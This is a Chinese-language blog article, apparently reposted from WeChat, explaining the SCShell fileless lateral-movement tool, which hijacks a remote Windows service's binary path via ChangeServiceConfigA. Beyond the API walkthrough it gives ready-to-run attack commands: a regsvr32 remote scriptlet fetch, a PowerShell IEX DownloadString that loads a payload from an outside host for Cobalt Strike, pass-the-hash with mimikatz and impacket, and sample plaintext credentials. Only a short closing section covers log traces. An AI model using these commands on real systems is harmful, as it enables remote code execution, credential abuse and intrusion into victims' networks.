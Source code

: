 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/BfO5hpoAiwXLpVOD3uj-zQ)

**1. 简单介绍**

SCShell 是无文件横向移动工具，它依赖 ChangeServiceConfigA 来运行命令。该工具的优点在于它不会针对 SMB 执行身份验证。一切都通过 DCERPC 执行。无需创建服务，而只需通过 ChangeServiceConfigAAPI 远程打开服务并修改二进制路径名即可（所以要事先知道目标上的服务名称）。支持 py 和 exe 两种文件类型。

该实用程序可以在不注册服务或创建服务的情况下远程使用。它也不必在远程系统上删除任何文件 *（取决于用于执行的技术）

一切都通过 DCERPC 执行。执行完成后，服务二进制路径将还原为原始路径

**2. 技术细节**

首先，它创建身份验证，这个工具是使用 LogonUserA API 和 ImpersonateLoggedOnUserA 实现的。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKibgvTQURYKGgruOmWAVbJknDdpqjvRibZdApoITv49xFMibR1B5tXbEgvw/640?wx_fmt=jpeg)

一旦进程获取了正确的身份验证，即可使用 OpenSCManagerA 远程打开目标主机上 Service Manager 

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKib8QictoYxicZm3u2wIk0ibYZtiaOFQNTf7O3wQn3ibtdyEJjXiahpRO6Y2PhQ/640?wx_fmt=jpeg)

使用 OpenServiceA API 打开远程服务并抛出错误

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKibnSV1kNTr43y5DEZibgT3ud8LFQYlB5oRyadBNxputDIYqqNWj3E68OA/640?wx_fmt=jpeg)

往下看是通过调用 ChangeServiceConfigA API 可以实现代码执行的效果。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKib2stSl7BS0e3gibMItfr2IKCFHhicyIiaMaDWHBaicprZS7Jo5q0XMadiblg/640?wx_fmt=jpeg)

通过查看微软文档我们可以知道 API 的第五个参数是用于启动服务的二进制路径

```
BOOL ChangeServiceConfig(
 SC_HANDLE hService      // 打开服务时返回的句柄
 DWORD dwServiceType,    // 服务的类型
 DWORD dwStartType,      // 何时启动服务
 DWORD dwErrorControl, // 错误控制代码
 LPCTSTR lpBinaryPathName, // 服务的路径
 LPCTSTR lpLoadOrderGroup, // 服务所属的组
 LPDWORD lpdwTagId,      // 服务的标记
 LPCTSTR lpDependencies,     // 依赖的其它服务和组
 LPCTSTR lpServiceStartName,// 服务的启动用户
 LPCTSTR lpPassword,     //服务启动用户的密码
 LPCTSTR lpDisplayName       // 服务的显示名
);
https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-changeserviceconfiga
```

所以作者在第 5 个参数设置了个 payload 值，也就是给我们输入的值。这个路径的是绝对路径，这里不多说，可以参考微软的文档。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKibQfuQbRKczWiaDXdgfRNhbDPaIKY9K0KKsrnde91wkUibCpuuM3ekSd9g/640?wx_fmt=png)

那么上面的代码就是调用 ChangeServiceConfigA 来将二进制路径名设置为我们提供的有效负载（就是执行我们的 lpBinaryPathName 中的值,）

可利用点就是在这个位置，原理不难理解，就是 ChangeServiceConfigA API 中的 lpBinaryPathName 的值可控。

例如调用 powershell 来远程加载木马或执行命令等等。

最后就是通过 StartServiceA 启动服务。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKiboVXyBvdLdPwjE8niczPHXdVe0eZzl3jW4MVYK8ia1p7gcvzzeF795GtQ/640?wx_fmt=jpeg)

代码不难理解。

**3. 利用手法**

作者给出的利用工具有包含 exe,py 和一个 c 语言的源码，其中 exe 和 py 能实现的功能并不一样。其实我个人觉得 exe 和 py 并不是很好用，所以 powershell 进行远程加载利用的话，我们就不用上传一个 exe 上去。后面花点时间写出来吧。

**1. Windows 使用**

Scshell 需要以下参数：目标，服务，有效负载，用户名，账号，密码：

```
1.SCShell.exe 192.168.197.131XblAuthManager"C:\windows\system32\cmd.exe /c C:\windows\system32\regsvr32.exe /s /n /u /i://your.website/payload.sct scrobj.dll". administrastor Password
# XblAuthManager 是 Xbox Accessory Management Service的服务名
```

**例子：**

我们使用这种手法来在目标主机中写入一个 txt 来证明可以利用

**在 win 中** 

```
scshell.exe 10.10.10.10 defragsvc "C:\windows\system32\cmd.exe /c echo ' hello' > c:\windows\temp\lat2.txt" . administrator 1qaz@wsx
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKibsicRkwu5vLWegLk14zDvqAK3rxNm453NxOlDEy7uDBPv7B8GTAkFKHQ/640?wx_fmt=png)  

在目标机器中我们可以看到写入一个 txt

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKibnwWaia90dh3sPYAffN0mhWFnCeOQBib9xgOL4PF9e78WNFt1Om3beQQQ/640?wx_fmt=png)

在 cobalt Strike 中

```
shell .\scshell.exe 10.10.10.10 defragsvc "C:\windows\system32\cmd.exe /c echo ' hello' > c:\windows\temp\lat2.txt" . administrator 1qaz@wsx
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKibEIkicXcXfyicmpepWvAkXSsAyyg2pCX04q7rUZph0HV5ib2GMQh6dA7Uw/640?wx_fmt=jpeg)  

**2. Linux 安装使用（使用 py 脚本可以使用散列传递来执行相同的横向移动。）**

```
1.pip install impacket
2.git clone https://github.com/Mr-Un1k0d3r/SCShell
3.cd https://github.com/Mr-Un1k0d3r/SCShell
4.python scshell.py ./administrator:cxzcxz@192.168.52.133# 执行cmd模式，没有命令回显
5.python scshell.py DOMAIN/USER@target -hashes 00000000000000000000000000000000:ad9827fcd039eadde017568170abdecce # hash验证
```

注意：无论是使用 exe 还是 py 脚本都是没有回显的。

**3. 可以使用该 C 程序传递哈希值。**

有时情况下，将使用当前进程令牌。您可以使用标准传递哈希方法设置当前流程令牌。

在本地系统上

```
sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:cmd.exe
```

然后在新创建的 cmd.exe 中运行 SCShell.exe 进行横向。  

上面我们使用的是 XblAuthManager，其实我们还可以使用 defragsvc，msbuild 等等

**4. 实战思路**

这个不用多说了吧，简单就是远程调用 powershell 远程加载 ps1 上线，或执行一些命令。

```
shell scshell.exe 10.10.10.10 defragsvc "C:\windows\system32\cmd.exe /c powershell.exe IEX(New-Object Net.WebClinet).DownloadString('http://192.168.50.146:8000/123.ps1')" . administrator 1qaz@wsx
```

然后还有就是 exe 的话需要我们有目标主机的明文密码，但是，明文密码不好拿到，所以还是使用 py 脚本来传输 hash 进行横向好，当然后面我也会写一个 powershell 的出来。  

从原理出发，举一反三就好

**5. 日志痕迹**

使用用户凭证连接会在目标日志系统留下用户名、来访机器 IP 和服务超时等信息

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKibBScKxBdDe1yJeklh34aAibdria8ffSXvthiaT4vo8DWNeRgUr2sBvY8Kg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBCNWibMYYJO6XHovIrEChKibH1Fkj3EXkKtd0kERHZic0VHr2nlK0vYyKMkRGnRYib1RLv6KibCUOCUSw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDCu9vYaicsKXmibIlxHDeXmK8yoDsVrSMpI3RgS4JPtgGPdqXToibeNYGEMgk5WznIayx4hwMd8sVgJA/640?wx_fmt=jpeg)